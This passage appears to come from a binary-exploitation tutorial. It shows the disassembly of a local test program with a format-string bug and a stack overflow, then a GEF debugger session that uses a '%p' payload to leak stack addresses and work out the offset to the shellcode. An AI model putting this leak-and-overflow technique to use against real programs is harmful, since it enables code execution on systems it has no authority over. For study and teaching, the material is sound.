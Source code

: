 ```
   0x00005555555551fb <+182>:   mov    QWORD PTR [rbp-0xb8],0x0
   0x0000555555555206 <+193>:   mov    QWORD PTR [rbp-0xb0],0x0
   0x0000555555555211 <+204>:   mov    QWORD PTR [rbp-0xa8],0x0
   0x000055555555521c <+215>:   mov    QWORD PTR [rbp-0xa0],0x0
   0x0000555555555227 <+226>:   mov    QWORD PTR [rbp-0x98],0x0
   0x0000555555555232 <+237>:   mov    QWORD PTR [rbp-0x90],0x0
   0x000055555555523d <+248>:   mov    QWORD PTR [rbp-0x88],0x0
   0x0000555555555248 <+259>:   mov    DWORD PTR [rbp-0x80],0x0
   0x000055555555524f <+266>:   lea    rdi,[rip+0xdb2]        # 0x555555556008
   0x0000555555555256 <+273>:   mov    eax,0x0
   0x000055555555525b <+278>:   call   0x555555555030 <printf@plt>
   0x0000555555555260 <+283>:   mov    rdx,QWORD PTR [rip+0x2dd9]        # 0x555555558040 <stdin@@GLIBC_2.2.5>
   0x0000555555555267 <+290>:   lea    rax,[rbp-0x70]
   0x000055555555526b <+294>:   mov    esi,0x64
   0x0000555555555270 <+299>:   mov    rdi,rax
   0x0000555555555273 <+302>:   call   0x555555555040 <fgets@plt>
   0x0000555555555278 <+307>:   lea    rax,[rbp-0x70]
   0x000055555555527c <+311>:   mov    rdi,rax
   0x000055555555527f <+314>:   mov    eax,0x0
   0x0000555555555284 <+319>:   call   0x555555555030 <printf@plt>
   0x0000555555555289 <+324>:   lea    rdi,[rip+0xdb0]        # 0x555555556040
   0x0000555555555290 <+331>:   mov    eax,0x0
   0x0000555555555295 <+336>:   call   0x555555555030 <printf@plt>
   0x000055555555529a <+341>:   mov    rdx,QWORD PTR [rip+0x2d9f]        # 0x555555558040 <stdin@@GLIBC_2.2.5>
   0x00005555555552a1 <+348>:   lea    rax,[rbp-0xe0]
   0x00005555555552a8 <+355>:   mov    esi,0x12c
   0x00005555555552ad <+360>:   mov    rdi,rax
   0x00005555555552b0 <+363>:   call   0x555555555040 <fgets@plt>
   0x00005555555552b5 <+368>:   mov    eax,0x0
   0x00005555555552ba <+373>:   leave
=> 0x00005555555552bb <+374>:   ret
```

Before writing the exploit, an attaker needs to look at the memory addresses that can be leaked off of the stack from the format string vulnerability and discover their offsets from the address that contains the shellcode. In this example, one can set a breakpoint at \*main+368 (right after the second call to `fgets()`), exploit the format string vulnerability to print out addresses off of the stack, and look at the addresses. The goal here is to find the start of the second buffer and a suitable address leaked off of the stack. Subtracting these two addresses will result in obtaining the offset that is required for the exploit.

```
gef➤  b *main+368
Breakpoint 2 at 0x12b5
gef➤  r
Starting program: /home/nihaal/Desktop/buffers
Enter your input for the first buffer (fmt str vuln): %p.%p.%p.%p.%p.%p.%p.%p.%p.%p.
0x5555555596b1.(nil).0x5555555596cf.0x7fffffffdfb0.0x7ffff7fadbe0.0x7fffffffe118.0x100000000.(nil).(nil).(nil).
Enter your input for the second buffer (stack overflow): AAAAAAAAAAAAAAAAAAAAAA

Breakpoint 2, 0x00005555555552b5 in main ()
[ Legend: Modified register | Code | Heap | Stack | String ]
────────────────────────────────────────────────────────────────────────────────────────────────── registers ────
$rax   : 0x00007fffffffdf40  →  "AAAAAAAAAAAAAAAAAAAAAA\n"
$rbx   : 0x0
$rcx   : 0x00005555555596c7  →  ".%p.%p.\n"
$rdx   : 0x0
$rsp   : 0x00007fffffffdf30  →  0x00007fffffffe118  →  0x00007fffffffe42f  →  "/home/nihaal/Desktop/buffers"
$rbp   : 0x00007fffffffe020  →  0x00005555555552c0  →  <__libc_csu_init+0> push r15
```